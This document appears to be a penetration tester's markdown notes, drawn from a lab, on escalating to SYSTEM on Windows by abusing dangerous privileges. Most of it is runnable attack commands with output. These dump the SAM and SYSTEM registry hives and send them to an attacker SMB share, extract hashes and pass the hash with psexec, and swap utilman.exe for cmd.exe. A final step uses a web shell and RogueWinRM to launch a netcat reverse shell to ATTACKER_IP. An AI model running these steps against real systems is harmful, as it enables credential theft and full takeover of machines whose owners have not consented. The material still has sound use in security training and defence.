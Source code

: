 # Abusing dangerous privileges 

## Attack tree

```text
1 Abusing dangerous privileges
   1.1 SeBackup/SeRestore abuse (OR)
   1.2 SeTakeOwnership abuse (OR)
   1.3 SeImpersonate/SeAssignPrimaryToken abuse
```

## Examples

### SAM and SYSTEM registry

This hack consists of copying the `SAM` and `SYSTEM` registry hives to extract the local Administrator's password hash.

1. Check currently assigned privileges:

    whoami /priv

The current account (`Backup`) is part of the "Backup Operators" group, which by default is granted the `SeBackup` 
and `SeRestore` privileges. Open a command prompt with the "Open as administrator" option to use these privileges.

2. Check privileges again:

```text
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

2. Backup the SAM and SYSTEM hashes:

```text
C:\> reg save hklm\system C:\Users\Backup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\Backup\sam.hive
The operation completed successfully.
```

3. Copy these files to the attacker machine using SMB or any other available method. For SMB, use impacket's 
`smbserver.py` to start a simple SMB server with a network share in the current directory.

```text
# mkdir share
# python3 /opt/impacket/examples/smbserver.py -smb2support -username Backup -password <password of Backup> public share
```

4. Use the copy command in the Windows machine to transfer both files to the attack machine:

```text
C:\> copy C:\Users\Backup\sam.hive \\<IP address attack machine>\public\
C:\> copy C:\Users\Backup\system.hive \\<IP address attack machine>\public\
```

5. Use impacket to retrieve the users' password hashes:

```text
# python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

6. Use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with 
`SYSTEM` privileges:

```text
# python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@<IP address attack machine>
...
C:\Windows\system32> whoami
nt authority\system
```

### Replacing Utilman

1. Open a command prompt using "Open as administrator" and check privileges:

```text
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

2. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen. It is 
run with `SYSTEM` privileges, so we can gain `SYSTEM` privileges by replacing the original binary with any payload. 
Because we can take ownership of any file, replacing it is trivial.

Take ownership of `utilman.exe`:

```text
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```

3. Give the user you are logged in as, full permissions over `utilman.exe`

```text
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

4. Replace `utilman.exe` with a copy of `cmd.exe`:

```text
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
```

5. To trigger utilman, lock the screen from the start button, then click on the "Ease of Access" button, which runs 
`utilman.exe` with `SYSTEM` privileges. 

```text
C:\Windows\system32> whoami
nt authority\system
```

### FTP impersonation

An FTP service running with user `ftp`. Without impersonation, if a user logs into the FTP server and tries to 
access ftp files, the FTP service would try to access them with its access token rather than Ann's.

With ftp token like this, we must manually configure specific permissions for each served file/directory. The 
`ftp` user has access to all files. If the FTP service were compromised at some point, the attacker would 
immediately gain access to all folders to which the ftp user has access.

If instead, the FTP service's user has the `SeImpersonate` or `SeAssignPrimaryToken` privilege, all of this is 
simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to 
perform any task on their behalf. If we manage to take control of a process with `SeImpersonate` or 
`SeAssignPrimaryToken` privileges, we can impersonate any user connecting and authenticating to that process.

1. Plant a web shell on `http://IP address target/`
2. Use the web shell to check for the assigned privileges of the compromised account and confirm we hold both 
privileges of interest.
3. Upload `RogueWinRM` to the target machine. The RogueWinRM exploit is possible because whenever a user 
(including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to 
port 5985 using `SYSTEM` privileges. Port 5985 is typically used for the `WinRM` service, a port that exposes a 
Powershell console to be used remotely through the network.

4. Start a netcat listener:

```text
# nc -lvp 4442
```

5. Use the web shell to trigger the RogueWinRM exploit:

```text
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` 
parameter is used to pass arguments to the executable. The exploit may take up to 2 minutes to work, so the browser 
may appear unresponsive for a bit. 

```text
c:\windows\system32\inetsrv>whoami
nt authority\system
```

## Notes

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be from the 
privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

### SeBackup/SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in 
place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring 
full administrative privileges. Having this power, an adversary can trivially escalate privileges on the system by 
using many techniques. 

### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and 
registry keys, opening up many possibilities for an attacker to elevate privileges. For example, search for a 
service running as SYSTEM and take ownership of the service's executable.

### SeImpersonate/SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually 
consists of being able to spawn a process or thread under the security context of another user.

## Resources

* [Privilege Constants (Authorization)](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
* [Priv2Admin](https://github.com/gtworek/Priv2Admin)
